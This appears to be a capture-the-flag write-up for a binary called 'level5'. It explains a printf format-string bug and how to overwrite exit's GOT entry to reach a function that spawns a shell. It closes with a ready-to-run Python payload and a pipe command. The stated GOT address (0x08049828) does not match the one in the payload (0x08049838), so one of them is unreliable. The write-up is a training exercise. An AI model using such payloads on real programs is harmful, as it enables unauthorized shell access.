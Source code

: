 # LEVEL5

## EXPLANATIONS
### BINARY BEHAVIOR

- 3 function main, n, and o. main call n but o is never called  
    - \<n\>  
    -->n gets the stdin input and put it in buf  
    --> then printf(buf) (format string exploit)  
    --> exit  
    - \<o\>  
    -->call system("bin/sh")

### EXPLOI STRATEGY
- same as before, format string exploit  
    - in previous levels, overwriting a given address with a given value would lead to a win.  
    - This time, we only see a o function, called nowhere, that makes us win.  
    - Somehow we need to write an format string exploit that will call this function.  
    - There's a call to exit so we cannot just override sEIP.  
    - Looking to override exit, we saw function name was @plt and then @got.plt.  
    - Some reasearches on this quickly led us to know we could change addresses of the global offset table.  

- exit GOT address : 0x08049828
- address of \<o\> : 134513824 + 4 = 0x080484A4

### RUN COMMAND
```
python -c "print('\x08\x04\x98\x38'[::-1] + '%134513824x' + '%4\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level5/level5
```